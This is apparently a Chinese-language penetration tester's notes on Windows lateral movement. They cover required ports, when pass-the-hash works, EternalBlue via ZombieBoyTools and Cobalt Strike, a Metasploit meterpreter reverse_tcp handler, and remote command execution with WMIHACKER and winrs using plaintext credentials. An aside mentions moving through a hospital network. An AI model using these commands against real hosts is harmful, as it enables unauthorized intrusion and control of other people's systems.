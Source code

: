 <a name="ZTbFk"></a>
# 
<a name="lf8pI"></a>
## 需要开放的端口:
IPC$+AT 445 PSEXEC 445 WMI 135 Winrm 5985（HTTP ）&5986 （HTTPS）<br /> <br />哈希传递要求: （医院那次内网，其实就是因为用administrators用户登录的，所以能横向）<br />工作组:<br />Windows Vista 之前的机器，可以使用本地管理员组内用户进行攻击。<br />Windows Vista 之后的机器，只能是administrator用户的哈希值才能进行哈希传递攻击，其他用户(包括管理员用户但是非administrator)也不能使用哈希传递攻击，会提示拒绝访问。<br />------------<br />域环境：<br />域管理员组内用户即可<br />-------------------------------------<br />KB2871997补丁产生的影响（不能横向）<br />无法通过本地管理员权限对远程计算机使用 Psexec、WMI、smbexec、IPC 等，也无法访问远程主机的文件共享等。

<a name="vxJeA"></a>
## ZombieBoyTools打永恒之蓝

[https://bbs.ichunqiu.com/thread-29817-1-1.html](https://bbs.ichunqiu.com/thread-29817-1-1.html) 使用操作<br />如果win了之后，就点击Doublepulsar中得Attack<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1614251129085-d4c77977-e8bb-416a-bd8b-7b4af3d73095.png#height=435&id=OyTof&originHeight=869&originWidth=681&originalType=binary&ratio=1&rotation=0&showTitle=false&size=31724&status=done&style=none&title=&width=340.5)
> msfconsole      
> use exploit/multi/handler
> set payload windows/x64/meterpreter/reverse_tcp
> show options
> set LHOST 
> set LPORT 
> run


<a name="0NW8l"></a>
## cobalt strike的永恒之蓝
Erebus→pwn→eterblue<br />![image.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1619775261573-6bc3d060-f682-4692-a788-b55b756a2d14.png#height=655&id=ouxfJ&originHeight=655&originWidth=1014&originalType=binary&ratio=1&rotation=0&showTitle=false&size=86700&status=done&style=none&title=&width=1014)
<a name="jYvP7"></a>
## WMIHACKER(135横向)
可以通过命令行  上传、下载文件<br />[https://github.com/rootclay/WMIHACKER](https://github.com/rootclay/WMIHACKER)

cscript //nologo WMIHACKER_0.6.vbs /cmd 192.168.201.141 administrator "Aufeng123" "ipconfig" 1

<a name="aRTfJ"></a>
## WinRM（5985、5986 端口)比较罕见 适用域

- 1、适用于 win7 及以后的系统，win7 和 server 08 默认关闭
- 2、server 12 之后的版本才默认允许远程任意主机进行管理
- 3、防火墙未过滤 5985、5986 端口

winrs(windows remote shell)是 WinRM 的客户端,需要管理员权限才能运行，可直接执行 命令，也可以返回交互式 shell

winrs -r:192.168.19.100 -u:adtest\administrator -p:admin@124 "cmd"<br />![图片.png](https://cdn.nlark.com/yuque/0/2021/png/1345801/1611411313196-3afc5505-fb03-44a7-869a-38375d5b266c.png#height=265&id=pFl25&originHeight=529&originWidth=1003&originalType=binary&ratio=1&rotation=0&showTitle=false&size=432014&status=done&style=none&title=&width=501.5)
<a name="vKSOM"></a>
## Ipc